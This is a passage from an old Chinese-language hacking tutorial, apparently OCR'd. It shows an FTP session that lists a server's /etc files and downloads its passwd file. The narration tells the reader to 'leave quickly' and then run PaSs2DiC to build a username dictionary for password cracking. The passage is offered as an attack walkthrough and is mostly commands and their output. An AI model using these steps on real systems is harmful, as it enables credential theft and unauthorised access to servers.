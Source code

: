 ```bash
resolv.conf
rpc
ftpaccess
hosts.lpd
ftpconversions
snooptab
msgs
ftpgroups
slip.login
slip.hosts
yp.conf.example
X11
lilo.conf
sendmail.cf
fstab
fastboot
mtab
syslog.pid
klogd.pid
shutdownpid
localtime
passwd.old
ioctl.save
psdevtab
ftp.banner
ftp.deny
issue.net
motd.bak
securetty.old
226 Transfer complete.
```

(取回该档案)

```bash
ftp> get passwd
200 PORT command successful.
150 Opening BINARY mode data connection for passwd (4081 bytes).
226 Transfer complete.
4081 bytes received in 2.5 seconds (1.6 Kbytes/s)
```

(尽速离开)

```bash
ftp> bye
221 Goodbye.
```

好了! 有了 /etc/passwd 之後一切都好办了, 赶紧将你的宝贝收藏 PaSs2DiC 拿出来吧!!
快点跑一下, 让它自动产生字典档案:

```bash
C:\hack>pass2dic
PaSs2DiC V0.2 (C)1996 By FETAG Software Development Co. R.O.C. TAIWAN. 

This tool will:

[1] Load PASSWD file and convert it to only username text file
[2] Write the file to a dictionary file you choise for target

Your Source PASSWD File Name: passwd
Your Target Dictionary Name: dic.cfe

PaSs2DiC Author: James Lin E-Mail: fetag@stsvr.showtower.com.tw
FETAG Software Development Co: http://www.showtower.com.tw/~fetag

```